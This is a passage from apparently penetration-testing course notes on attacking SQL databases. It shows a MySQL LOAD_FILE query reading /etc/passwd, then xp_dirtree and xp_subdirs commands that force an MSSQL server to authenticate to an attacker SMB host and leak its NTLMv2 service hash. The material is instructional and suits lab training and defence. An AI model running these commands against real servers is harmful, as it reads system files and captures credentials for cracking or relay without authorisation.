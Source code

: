 ```shell-session
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

```

***

### <mark style="color:blue;">Capture MSSQL Service Hash</mark>

In the `Attacking SMB` section, we discussed that we could create a fake SMB server to steal a hash and abuse some default implementation within a Windows operating system. We can also steal the MSSQL service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

To make this work, we need first to start [Responder](https://github.com/lgandx/Responder) or [impacket-smbserver](https://github.com/SecureAuthCorp/impacket) and execute one of the following SQL queries:

#### <mark style="color:green;">**XP\_DIRTREE Hash Stealing**</mark>

```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------
```

#### <mark style="color:green;">**XP\_SUBDIRS Hash Stealing**</mark>

{% code fullWidth="true" %}
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```
{% endcode %}

If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.
